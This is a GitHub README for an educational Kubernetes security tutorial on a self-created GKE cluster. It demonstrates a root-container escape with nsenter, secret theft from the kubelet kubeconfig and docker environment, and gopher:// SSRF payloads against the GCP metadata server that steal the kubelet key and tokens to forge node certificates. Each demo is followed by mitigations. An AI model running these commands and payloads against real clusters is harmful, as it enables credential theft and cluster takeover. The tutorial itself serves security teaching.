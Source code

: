 # tutorial-gke-security
- This repository is for a tutorial of "Kubernetes Security for Microservices"
  - [Presentation Slide (Kubernetes Security for Microservices at Kubernetes Meetup Tokyo #30)](https://speakerdeck.com/rung/kubernetes-security-for-microservices) * in Japanese

### Caution
This repository is for education.

## Cloud Shell on GCP
[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/tutorial-gke-security&page=editor&cloudshell_tutorial=README.md)

## Preparation
#### Set project id
```
PROJECT_ID="Your Project Name"
```

```
gcloud config set project $PROJECT_ID
```

#### Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

#### Create GKE Cluster
```bash
gcloud beta container clusters create gke-security-testing --zone us-central1-a --machine-type n1-standard-1 --num-nodes 3 --enable-pod-security-policy --async
```
- You can check the status on [console](https://console.cloud.google.com/kubernetes/list)

#### Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

#### Testing
```
kubectl get node
```

#### Deploy web server
```
kubectl apply -f manifest/ssrf_server/ -R
```
- Please don't expose deployment on the Internet through Service.

## Demo 1: Compromised Developers' PC (PodSecurityPolicy/RBAC)
#### Run root container
```
kubectl apply -f manifest/root/pod.yaml
```

#### Enter root
```
kubectl exec -it root-container -- /bin/sh -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```

#### Get credentials
```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get secret dummy-secret -o yaml
```

#### Get credentials(method 2) (Please copy this command from [GitHub](https://github.com/rung/tutorial-gke-security))
```
docker ps -q | xargs docker inspect --format='{{range .Config.Env}}{{println .}}{{end}}' | grep DB_Password
```

```
exit
```

#### How to block
- RBAC
- PodSecurityPolicy

```
alias kubectl-user='kubectl --as=system:serviceaccount:default:unprivileged-user'
```
```
kubectl delete pod root-container
```
```
kubectl delete rolebinding default-psp
```

##### Apply PodSecurityPolicy and RBAC
```
kubectl apply -f manifest/psp/ -R
```

##### Try to deploy privileged pod
```
kubectl-user apply -f manifest/root/pod.yaml
```
##### Try to use kubectl to another namaspaces
```
kubectl-user get pod -n kube-system
```

## Demo 2: Vulnerable Application (Workload Identity)
#### Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080 2>&1 >/dev/null &
```

#### Open Web Preview
![web-preview](https://github.com/rung/tutorial-gke-security/raw/master/img/web-preview.png)
![web-page](https://github.com/rung/tutorial-gke-security/raw/master/img/web-page.png)

#### Input url (for testing)
```
https://www.example.com
```

#### Input malicious url
#### Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

![web-metadata](https://github.com/rung/tutorial-gke-security/raw/master/img/web-metadata.png)

#### Save the metadata to metadata-script/metadata.txt
```
cd metadata-script
```

```
curl -X POST 'http://localhost:8080/get_contents' --data 'url=gopher%3A%2F%2F169.254.169.254%3A80%2F_GET+%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2Fkube-env%3Falt%3Djson+HTTP%2F1.1%250d%250aMetadata-Flavor%3A+Google%250d%250aConnection%3A+Close%250d%250a%250d%250a' -o metadata.txt
```

#### Move current kubeconfig file
```
mv ~/.kube/config ~/.kube/config.tmp
```
```
kubectl config get-contexts
```

#### Get node certificate
- Extract necessary data from metadata
```bash
bash extract.sh
```
```
ls -l metadata
```

- Send CSR and Get node certificate
```
bash make_cert.sh $(cat metadata/nodename)
```

#### Get credentials
- Set env vars
```
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)" && echo $KUBE_OPT
```

- Get secretName
```
kubectl $KUBE_OPT describe pod | grep secret
```

- Get secret
```
kubectl $KUBE_OPT get secret dummy-secret -o yaml
```

#### Move back kubeconfig file
```
mv ~/.kube/config.tmp ~/.kube/config
```
```
kubectl config get-contexts
```

#### (Reference) Get instance token
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

### How to block
#### [Workload Identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
- Enable workload identity (Need much time)
```
gcloud beta container clusters update gke-security-testing --identity-namespace=${PROJECT_ID}.svc.id.goog --region us-central1-a
```

```
gcloud beta container node-pools update default-pool --cluster=gke-security-testing --workload-metadata-from-node=GKE_METADATA_SERVER --zone us-central1-a
```

![web-workload-identity-enabled.png](https://github.com/rung/tutorial-gke-security/raw/master/img/web-workload-identity-enabled.png)

## (After this tutorial) Delete cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
